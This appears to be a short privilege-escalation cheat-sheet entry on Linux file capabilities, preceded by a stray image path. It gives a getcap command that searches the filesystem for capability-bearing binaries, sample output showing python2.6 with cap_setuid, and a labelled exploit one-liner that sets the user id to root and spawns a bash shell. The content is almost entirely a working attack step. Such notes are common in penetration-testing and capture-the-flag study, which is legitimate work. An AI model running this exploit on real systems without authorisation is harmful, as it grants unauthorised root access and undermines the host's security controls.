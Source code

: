  ### Capabilities 
 
 ## Type Command
   getcap -r / 2>/dev/null
 
 ## Output
    /usr/bin/python2.6 = cap_setuid+ep
    
 ## Exploit
 
  /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   
